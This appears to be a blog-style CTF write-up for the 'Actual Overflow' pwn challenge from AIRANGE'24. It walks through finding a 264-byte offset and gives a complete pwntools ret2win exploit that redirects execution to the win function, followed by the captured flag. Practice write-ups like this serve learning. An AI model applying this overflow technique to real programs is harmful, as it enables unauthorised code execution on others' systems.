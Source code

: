 ```yaml
---
title: AIRANGE'24 - Pwn - Actual Overflow
date: '2024-03-10'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'pwntools', 'overflow']
draft: false
summary: It  was my first pwn challenge plus learned alot from it. Huge thanks to TheFlash2k for developing such challenges.
---
```


## Challenge Description

Trust me, it's as easy as it gets

**NOTE:** If you're able to make the jump, but still stuck, look into how stack alignment works and how the MOVAPS instruction causes the problem.


[Download](https://airange.online/files/d609687a9a7a48a4cbae9ff72a55484a/actual_overflow.tar?token=eyJ1c2VyX2lkIjo3MSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MzF9.Ze0hww.VsqE2NIqnSB3disCFHCp94exz-s)

## Solution

In the source code, we can see that win function (which is the responsible of displaying flag) is not called. Only run function is called:

![Screenshot](/static/writeups/airange24/pwn/aof_pic1.png)

We can use buffer overflow to make the win function execute.

For that we need 2 things, offset and memory address of the system call made in the win function.

First let’s find the offset:

```python
python3 -c "print('A'*264)" | ./actual_overflow
```

The offset of buffer is 264:

![Screenshot](/static/writeups/airange24/pwn/aof_pic2.png)

Now let’s find the address of system call:

![Screenshot](/static/writeups/airange24/pwn/aof_pic3.png)

Now the payload that I used:

```python
from pwn import *

# Loading the ELF binary into the variable 'elf'
elf = ELF("actual_overflow")

# Establish a connection to the locally running process
p = elf.process()

# For remote server: 
# p = remote("143.198.227.172", 32776)

# Receiving data from the process and print it
print(p.recv())

# Crafting a payload to exploit the buffer overflow vulnerability
# Prepare the address to the desired function to be called after the overflow
addr = p64(0x401240)

# Generating padding to fill up the buffer until the return address position
padding = (b"A" * 264)

# Construct the payload by concatenating the padding and the address
payload = padding + addr

# Sending the payload to the process
p.sendline(payload)
p.interactive()
```

Our exploit is running successfully on the local machine:

![Screenshot](/static/writeups/airange24/pwn/aof_pic4.png)

Lets run it against remote server to get flag:

![Screenshot](/static/writeups/airange24/pwn/aof_pic5.png)

```
AUCSS{l00k_maa_my_f1rs7_buff3r_0verfl0w}
```